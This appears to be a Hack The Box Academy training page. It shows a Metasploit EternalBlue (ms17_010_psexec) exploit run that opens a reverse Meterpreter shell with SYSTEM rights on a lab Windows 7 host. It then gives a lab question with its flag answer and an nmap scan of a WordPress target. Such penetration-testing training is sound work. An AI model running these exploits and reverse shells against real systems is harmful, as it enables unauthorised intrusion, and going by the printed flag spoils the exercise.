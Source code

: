 Run the exploit and get a shell:
```
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

## Questions
Answer the question(s) below to complete this Section and earn cubes!

```
Target: 94.237.59.206:38150 
Life Left: 89 minutes
```

Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)
```
> HTB{my_f1r57_h4ck}
```

### Solution
Identifying the service with nmap:
```
$ nmap -sV -sC -p38150 94.237.59.206
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-12 10:26 EDT
Nmap scan report for 94-237-59-206.uk-lon1.upcloud.host (94.237.59.206)
Host is up (0.029s latency).

PORT      STATE SERVICE VERSION
38150/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Getting Started &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.6.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```
